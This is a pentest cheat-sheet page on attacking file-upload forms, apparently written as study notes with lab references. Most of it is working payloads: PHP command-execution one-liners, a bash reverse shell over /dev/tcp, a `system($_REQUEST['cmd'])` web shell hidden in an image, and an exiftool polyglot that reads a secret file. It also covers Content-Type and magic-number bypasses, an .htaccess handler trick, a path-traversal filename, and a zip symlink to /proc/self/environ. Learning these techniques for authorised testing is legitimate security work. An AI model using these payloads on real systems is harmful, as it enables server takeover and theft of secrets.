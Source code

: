 ```yaml
---
title: "File Upload"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



#File_upload

**Test every php extension** 

- Script generate extension list : 

```python
var = ".php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module"
var_list = var.split(", ")

with open("extensions.txt", "w") as file:
    for extension in var_list:
        file.write(extension + "\n")
```   

- Check every file that send an echo "test" : 

`Same technique now check every response that print Demonize or "test"`

Check the disable function  

- Here is a list or other possible function to test to execute command : 

	- **exec** - Returns last line of commands output:
	 ``` echo exec("uname -a"); ```
	 - **passthru** - Passes commands output directly to the browser:
	 ```echo passthru("uname -a");```
	 - **system** - Passes commands output directly to the browser and returns last line:
	 ```echo system("uname -a");```
	 - **shell_exec** - Returns commands output :
	 ``` echo shell_exec("uname -a"); ```
	 - **popen** - Opens read or write pipe to process of a command:
	 ```echo fread(popen("/bin/ls /", "r"), 4096);```
	 - **proc_open** - Similar to popen() but greater degree of control:
	 ```proc_close(proc_open("uname -a",array(),$something)); ```
	 - **preg_replace** :
	 ``` <?php preg_replace('/.*/e', 'system("whoami");', ''); ?> ```
	 - **pcntl_exec** - Executes a program (by default in modern and not so modern PHP you need to load the `pcntl.so` module to use this function) :
	 ```pcntl_exec("/bin/bash", ["-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"]);```


**Bypass Content-Type, Magic Number**

- Bypass **Content-Type** checks by setting the **value** of the **Content-Type** **header** to: _image/png_ , _text/plain , application/octet-stream_

 Content-Type **wordlist**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
   
- Bypass **magic number** check by adding at the beginning of the file the **bytes of a real image** (confuse the _file_ command). Or introduce the shell inside the **metadata**: 

`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`

Or you could also **introduce the payload directly** in an image: 

`echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`

- Interesting tool Upload bypass :
https://github.com/sAjibuu/Upload_Bypass

- You can also an LFI do bypass restriction for example : 
`Content-Disposition: form-data; name="avatar"; filename="../exploit.php`

DO NOT forget try double encoding ect ...

- Htaccess ( Web shell upload via extension blacklist bypass ): 

1- Upload a file name as .htaccess 
2- Change the value of the `Content-Type` header to `text/plain`
3- Replace the contents of the file (your PHP payload) with the following Apache directive:

`AddType application/x-httpd-php .l33t`

Resources: 
https://thibaud-robin.fr/articles/bypass-filter-upload/


- Tester la présence d'un Anti-virus : 
```sh
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```


- Zip :
Try to upload a zip with symlink to `/etc/password` or `the page himself` (index.php)
Be aware of `opendir` !! 
```sh
ln -s /proc/self/environ test.txt
zip --symlinks user.zip test.txt
```

Also Zipslip : https://github.com/snyk/zip-slip-vulnerability